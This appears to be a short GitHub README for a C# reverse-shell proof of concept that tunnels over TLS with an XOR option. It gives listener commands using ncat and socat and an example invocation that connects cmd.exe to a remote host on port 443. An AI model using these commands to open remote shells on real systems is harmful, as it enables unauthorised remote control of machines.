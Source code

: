 # csharp_reverse_shell
c# reverse shell poc that also does TLS

Specify host, port, command, arguments, int XOR

Catch it with ncat --ssl or socat openssl-listen:443,cert=cert.pem,verify=0 

All arguments are required,

e.g > csharp_reverse_shell.exe host 443 %comspec% "" 00
